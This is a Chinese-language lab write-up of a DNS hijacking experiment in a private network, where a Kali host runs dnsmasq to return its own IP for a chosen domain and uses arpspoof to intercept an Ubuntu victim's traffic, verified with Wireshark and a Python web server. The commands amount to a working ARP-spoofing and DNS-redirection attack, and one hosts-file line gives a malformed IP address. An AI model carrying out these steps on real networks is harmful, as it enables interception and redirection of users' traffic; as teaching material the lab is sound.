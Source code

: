 ```yaml
---
title: DNS劫持实验
description: 本次实验旨在通过配置和使用 Kali Linux 中的 dnsmasq 服务，演示 DNS 劫持攻击的过程，并观察其对被攻击主机的影响
#cover: /cover/cover2.png
tags:
 - DNS
#sticky: 999
published: 2025-04-02
---
```

# DNS劫持实验

**注意:** 实验中的ip依自己的实验环境为准,注意替换

​		本文中攻击者kali主机的IP为`192.168.183.137` 

​					被攻击者ubuntu主机的IP为`192.168.183.136` 

​					网关为`192.168.183.2`

## 1.配置dnsmasq服务

* 安装dnsmasq

  ```bash
  sudo apt update
  sudo apt install dnsmasq
  ```

  

![image-20250402153451250](image-20250402153451250.png)

* 配置dnsmasq

  ```bash
  sudo vim /etc/dnsmasq.conf
  ```

  在文件末尾添加配置:

  ```
  resolv-file=/etc/resolv.dnsmasq
  strict-order
  listen-address=192.168.183.137  # Kali IP
  address=/lanjinxin.com/192.168.183.137  # 将域名指向Kali自身
  server=8.8.8.8  # 上游DNS
  ```

  ![image-20250402163616376](image-20250402163616376.png)

* 本地启用dnsmasq解析

  ```bash
  sudo vim /etc/resolv.conf
  ```

  修改dns服务器为kali ip

  ![image-20250402164008315](image-20250402164008315.png)

* 在hosts文件中添加解析

  ```bash
  echo "192.168.183.137.10 lanjinxin.com" >> /etc/hosts
  ```

* 启动 dnsmasq 服务并设置开机自启动

  ```bash
  systemctl restart dnsmasq && systemctl enable dnsmasq
  ```

## 2.配置被攻击主机(Ubuntu24.04)

* 修改主机hosts文件

```bash
sudo vim /etc/resolv.conf
```

![image-20250402164347315](image-20250402164347315.png)

将nameserver 设置为kali ip `192.168.183.137`



##  3.使用 arpspoof 进行 ARP 欺骗

* 在 Kali Linux 上，使用 `arpspoof` 进行 ARP 欺骗，使得被攻击主机的流量通过攻击者主机：

  ```bash
  arpspoof -i eth0 -t [被攻击ip] -r [网关ip]
  ```

  ![image-20250402164940250](image-20250402164940250.png)

​	*如果不知道网关ip可以使用以下指令查询:*

```bash
route -n | grep 'UG' | awk '{print $2}'
```

## 4.观察被攻击主机访问被劫持域名时的重定向情况

* 在kali主机上使用wireshark验证dns劫持重定向

![image-20250402165508341](image-20250402165508341.png)

​	可见原向网关[192.168.183.2]查询dns的ubuntu主机[192.168.183.136]被kali劫持

* 在kali上搭建http服务器

  ```bash
  python3 -m http.server 80
  ```

  ![image-20250402165950014](image-20250402165950014.png)

  kali主机访问测试

  ![image-20250402170242885](image-20250402170242885.png)

* 在被攻击主机上访问域名`lanjinxin.com`

![image-20250402170154024](image-20250402170154024.png)

被攻击主机访问 `lanjinxin.com` 时显示的是 Kali Linux 上的 HTTP 服务器页面，说明 DNS 劫持成功。

* 在 Wireshark 中，可以观察到 DNS 请求和响应

![image-20250402170805657](image-20250402170805657.png)

可见ubuntu主机[192.168.183.136]通过dns查询`lanjinxin.com`的ip被kali主机[192.168.183.137]劫持并将自己的ip作为目标ip返回给被攻击主机
